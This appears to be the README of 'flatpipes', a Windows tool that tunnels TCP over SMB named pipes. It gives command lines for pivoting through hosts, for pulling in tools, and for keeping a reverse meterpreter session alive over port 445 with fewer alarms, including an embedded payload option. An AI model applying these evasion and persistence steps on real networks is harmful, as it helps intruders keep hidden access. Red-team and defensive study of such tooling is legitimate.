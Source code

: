 # flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

![help](https://github.com/dxflatline/misc/raw/master/flatpipes-help.PNG "help")

Since it seems it can help in various situations, let's list a few:


#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 10001
```

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
```
flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001
```

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
```
flatpipes.exe pserver sclient pipename . y.y.y.y 22
```

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
```
flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22
```

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 22
```

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22
```

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345
```
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall

---

#### TODO
* Supports one connection, think of ways to do multiple connection handling
* Custom payload option (undecided on the transfer format b64?)
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. Comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>

